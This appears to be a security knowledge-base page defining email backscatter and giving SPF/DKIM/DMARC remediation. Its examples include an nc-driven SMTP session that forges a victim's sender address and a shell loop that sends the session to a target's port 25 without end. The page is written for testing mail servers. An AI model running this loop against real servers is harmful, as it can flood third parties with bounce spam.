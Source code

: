 ```yaml
---
title : "Backscatter"
# pre : ' '
description : "Backscatter is the incorrectly automated bounce messages sent by mail servers, typically as a side effect of incoming spam.can be used."
date : 2020-07-03T09:33:43+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Backscatter

Backscatter is the incorrectly automated bounce messages sent by mail servers, typically as a side effect of incoming spam.can be used.

### Solution

```plain
- Implement anti-forgery checks - SPF, DKIM and DMARC
- Implement recepient checks for acceptance of e-mail
- If above not possible disable NDR reports
```

### Examples

#### Single test

```plain
nc 10.10.10.10 25
EHLO example.com
MAIL FROM:victim@example.com
RCPT TO:notexistingmailbox@target.com
DATA
backscatter testdata
.
```

#### Automated test

Create a file with this content (backscatter.txt)

```plain
EHLO example.com
MAIL FROM:victim@example.com
RCPT TO:notexistingmailbox@target.com
DATA
backscatter testdata
.
```

```plain
#!/bin/sh
while true;
do
    cat backscatter.txt | while read L; do sleep "1"; echo "$L"; done | "nc" -w 3 -C -v "<target-ip>" "25";
done
```

### URL list

* [Wikipedia.org - Backscatter](https://en.wikipedia.org/wiki/Backscatter_(email))

